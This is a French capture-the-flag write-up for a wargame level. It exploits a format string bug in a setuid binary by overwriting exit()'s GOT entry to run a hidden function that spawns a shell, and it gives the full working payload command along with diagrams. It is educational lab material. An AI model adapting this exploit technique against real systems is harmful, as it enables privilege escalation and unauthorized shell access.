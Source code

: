 # LEVEL 5

## 1. Introduction

Le binaire `level5` présente une vulnérabilité de **format string** avec une approche différente : au lieu de modifier une variable globale, nous devons **écraser l'entrée GOT** (Global Offset Table) de la fonction `exit()` pour rediriger l'exécution vers une fonction cachée `o()` qui lance un shell.

On a encore la même chose que les exercices précédents :

![alt text](Ressources/image-1.png)

## 2. Analyse

### 2.1 Droits du binaire
```bash
$ ls -la level5
-rwsr-s---+ 1 level6  level5  747441 Mar  6  2016 level5
```

### 2.2 Analyse avec Ghidra

En décompilant le binaire, on observe la structure suivante :

```c
void o(void) {
    system("/bin/sh");  // ← Notre cible !
    _exit(1);
}

void n(void) {
    char local_20c[520];  // Buffer de 520 octets
    
    fgets(local_20c, 0x200, stdin);  // Lecture sécurisée
    printf(local_20c);                // ← Vulnérabilité format string !
    exit(1);                          // ← Cible à écraser
}
```

**Points clés :**
- `printf()` sans spécificateur = vulnérabilité format string
- Fonction `o()` lance un shell (notre cible)
- `exit(1)` est appelé après `printf()` (cible à écraser)
- Buffer de 520 octets avec `fgets()` (lecture sécurisée)

### 2.3 Objectif de l'exploitation

Dans Ghidra on voit des choses intéressantes, car cette fois c'est la fonction `o` qui exécute le shell, et dans la fonction `n`, on voit qu'il y a un `exit`, et avant ça un simple `printf` de notre input. On peut donc encore une fois faire un format string attack.

Le but est **d'écraser** l'entrée GOT de `exit` pour qu'elle pointe vers `o()`.

## 3. Exploitation

### 3.1 Étape 1 : Localisation de la fonction cible

Il nous faut dans un premier temps l'adresse de `o` qu'on peut voir très simplement avec Ghidra :

![alt text](Ressources/image-2.png)

C'est donc **`\xa4\x84\x04\x08`** en little-endian.

**Adresse de `o()` : `0x080484a4`**

### 3.2 Étape 2 : Localisation de l'entrée GOT d'exit

Le but est **d'écraser** l'entrée GOT de `exit` pour qu'elle pointe vers `o()`. Il nous faut donc l'adresse de `exit` :

On peut l'avoir de cette façon : `objdump -R level5 | grep exit` et on obtient `0x08049838` soit **`\x38\x98\x04\x08`**

**Adresse GOT d'exit : `0x08049838`**

### 3.3 Étape 3 : Conversion de l'adresse en décimal

Pour exploiter le format string il nous faut convertir l'adresse de `o` en décimal, comme ça on pourra écrire tant de caractères avec `printf`, ce qui donne en décimal **134513828** et on enlève 4 octets car il y a aussi l'adresse de `exit` donc pour notre payload on va utiliser **134513824**.

**Calcul :**
- Adresse de `o()` : `0x080484a4` = 134513828 en décimal
- Moins 4 octets pour l'adresse GOT = **134513824**

### 3.4 Étape 4 : Détermination de la position

Comme les autres format string, il nous faut aussi la position des arguments de `printf`, toujours avec la commande :

```bash
echo -e "AAAA %p %p %p %p %p %p %p" | ./level5
```

![alt text](Ressources/image-3.png)

Et c'est à la **4ème position**.

### 3.5 Étape 5 : Construction du payload

Le payload final sera :

```bash
python -c 'print "\x38\x98\x04\x08" + "%134513824d%4$n"' > /tmp/payload5
```

### 3.6 Exécution de l'exploit

On peut faire en une seule commande :

```bash
python -c 'print "\x38\x98\x04\x08" + "%134513824d%4$n"' > /tmp/payload5 && cat /tmp/payload5 - | ./level5
```

![alt text](Ressources/image.png)

### 3.7 Commandes complètes

```bash
# Se connecter au niveau
ssh level5@<IP> -p 4242

# Créer le payload
python -c 'print "\x38\x98\x04\x08" + "%134513824d%4$n"' > /tmp/payload5

# Exécuter l'exploit
cat /tmp/payload5 - | ./level5
```

## 4. Structure du Payload

### 4.1 Ce qui se passe concrètement

```
┌─────────────────────────────────────────────────────────┐
│                GOT OVERWRITE                           │
├─────────────────────────────────────────────────────────┤
│  Adresse GOT[4] + Directive padding + Directive écriture│
│  │                                                    │
│  └─→ \x38\x98\x04\x08 + "%134513824d" + "%4$n"     │
│      │                                                │
│      └─→ printf() interprète %Nd comme padding      │
│          │                                            │
│          └─→ %134513824d génère 134513824 caractères │
│              │                                        │
│              └─→ %4$n écrit 134513828 dans GOT exit  │
│                  │                                    │
│                  └─→ GOT exit pointe vers o()        │
│                      │                               │
│                      └─→ exit() appelle o() à la place│
│                          │                           │
│                          └─→ system("/bin/sh")       │
│                              │                       │
│                              └─→ Shell level6        │
└─────────────────────────────────────────────────────────┘
```

### 4.2 Structure du payload

```
┌─────────────────┐
│ Adresse GOT     │ ← 4 octets (\x38\x98\x04\x08)
│    d'exit       │
├─────────────────┤
│ %134513824d     │ ← Directive de padding
├─────────────────┤
│ %4$n            │ ← Directive d'écriture
└─────────────────┘
```

### 4.3 Redirection GOT

```
┌─────────────────┐    ┌─────────────────┐    ┌─────────────────┐
│   Avant         │    │   Écrasement    │    │   Après          │
│   GOT exit      │    │   %4$n          │    │   GOT exit       │
│   0x08049838    │───▶│   134513828     │───▶│   0x080484a4     │
│   → libc exit   │    │   → o()         │    │   → o()          │
└─────────────────┘    └─────────────────┘    └─────────────────┘
```

### 4.4 Flux d'exécution

```
1. printf() reçoit notre entrée avec directive %Nd
2. %134513824d affiche un nombre avec 134513824 caractères de padding
3. Le total de caractères imprimés devient 134513828 (4+134513824)
4. %4$n écrit 134513828 à l'adresse GOT d'exit (0x08049838)
5. L'entrée GOT d'exit pointe maintenant vers o() (0x080484a4)
6. Quand exit() est appelé, o() s'exécute à la place
7. o() appelle system("/bin/sh")
8. Shell s'ouvre avec les privilèges SUID de level6
```

### 4.5 Visualisation de la redirection

```
┌─────────────────┐    ┌─────────────────┐    ┌─────────────────┐
│   Format String │    │   GOT Overwrite │    │   Redirection   │
│   %4$n         │───▶│   exit → o()    │───▶│   system("/sh") │
│                │    │   0x08049838     │    │                │
└─────────────────┘    └─────────────────┘    └─────────────────┘
```

### 4.6 Mécanisme de GOT Overwrite

```
┌─────────────────┐
│ Adresse GOT     │ ← Pointeur vers l'entrée GOT d'exit
│    d'exit       │
├─────────────────┤
│ %134513824d     │ ← Affiche avec 134513824 caractères de padding
├─────────────────┤
│ %4$n            │ ← Écrit le total (4+134513824) à l'adresse GOT
└─────────────────┘
```

### 4.7 Comparaison des techniques

```
┌─────────────────┐    ┌─────────────────┐    ┌─────────────────┐
│   Level 3-4     │    │   Level 5       │    │   Avantage      │
│   Variable      │    │   GOT Overwrite │    │   Redirection   │
│   Modification  │───▶│   Function      │───▶│   d'exécution   │
│   m = 64        │    │   Pointer       │    │   sans code     │
└─────────────────┘    └─────────────────┘    └─────────────────┘
```

## 5. Conclusion

Cette exploitation démontre l'importance de la protection de la GOT et l'utilisation de techniques avancées de format string pour rediriger l'exécution de programmes. 